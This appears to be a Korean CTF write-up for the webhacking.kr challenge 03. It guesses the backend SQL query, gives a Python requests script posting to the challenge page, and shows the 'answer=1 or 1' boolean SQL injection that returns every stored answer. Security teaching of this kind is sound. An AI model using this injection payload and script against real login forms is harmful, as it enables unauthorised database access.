


================================================================================================================
[webhacking.kr] 03
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="post_data: {answer=1&id=1}",arrowhead="normal"];
        step3 -> step2[label="Error Page",arrowhead="normal"];
        step4 -> step5[label="post_data: {answer=1 or 1&id=1}",arrowhead="normal"];
        step7 -> step6[label="login success",arrowhead="normal"];
    }

|

MISC
================================================================================================================

- 해당 페이지는 퍼즐 형식으로 되어 있는데 정답은 아래와 같음

- 정답 입력후 gogo 버튼을 클릭하면 다음과 같은 화면이 출력

|

server -> DB 예측
================================================================================================================

- POST 파라미터: answer, id

.. code-block:: sql

    select id, answer, ip from $table_name where 
    id= $_POST[id] and 
    answer = $_POST[answer]

|

POST Parameter
================================================================================================================

- 임의의 값을 입력하여 출력되는 메시지 확인

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-03/index.php?_1=1&_2=0&_3=1&_4=0&_5=1&_6=0&_7=0&_8=0&_9=0&_10=0&_11=0&_12=1&_13=1&_14=1&_15=0&_16=0&_17=1&_18=0&_19=1&_20=0&_21=1&_22=1&_23=1&_24=1&_25=1&_answer=1010100000011100101011111"
    cookies = {
        "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
    }
    data = {
        "answer": "1",
        "id":"1"
    }
    r = requests.post(url, data=data, cookies = cookies, verify=False)

    print r.content

- 출력 결과를 보면 answer가 같은 값을 입력한 상태에서 id값을 다르게 입력하면 누적형식으로 쌓인 데이터를 확인할 수 있다. 

.. code-block:: html

    
name : 1 
    answer : 1 
    ip : 125.x.x.x

    name : 1 
    answer : 1 
    ip : 125.x.x.x

    name : 1 
    answer : 1 
    ip : 125.x.x.x

    name : 33 
    answer : 1 
    ip : 125.x.x.x

    name : 33 
    answer : 1 
    ip : 125.x.x.x

    name : 33 
    answer : 1||1 
    ip : 125.x.x.x

|

or
================================================================================================================

$_POST[answer]에 참인 값을 or 형식으로 넣어주면 모든 answer 출력 결과를 얻을 수 있다.

.. code-block:: sql
    
    select id, answer, ip from $table_name where 
    id= $_POST[id] and 
    answer = 1 or 1

|